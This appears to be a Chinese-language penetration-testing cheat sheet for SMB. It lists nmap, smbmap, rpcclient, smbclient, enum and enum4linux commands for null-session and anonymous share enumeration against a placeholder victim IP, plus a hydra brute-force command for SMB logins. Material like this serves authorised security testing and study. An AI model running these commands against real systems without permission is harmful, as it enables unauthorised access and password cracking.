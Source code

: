 - nmap
    ```bash
    nmap --script smb-enum-shares -p139,445 -T4 -Pn <victim_ip>
    ```

**空会话**
- smbmap
    ```bash
    smbmap -H <victim_ip>
    ```

- rpcclient
    ```bash
    rpcclient -U "" -N $ip
    ```

- smbclient
    ```bash
    smbclient //<victim_ip>/IPC$ -N
    ```

- enum
    ```bash
    enum -s <victim_ip>
    enum -U <victim_ip>
    enum -P <victim_ip>
    ```

- enum4linux
    ```bash
    enum4linux -a <victim_ip>
    ```

**匿名共享**
- smbclient
    ```bash
    smbclient //$ip/share -U username
    smbclient \\\\<victim_ip>\\<share>
    smbclient //<victim_ip>/<share>
    smbclient //<victim_ip>/<share\ name>
    smbclient //<victim_ip>/<""share name"">
    ```

- rpcclient
    ```bash
    rpcclient -U " " <victim_ip>
    rpcclient -U " " -N <victim_ip>
    ```

**暴力破解**

可以暴力破解来获得目标主机的 smb 访问。
```bash
hydra -L user.txt -P pass.txt 192.168.1.1 smb
```
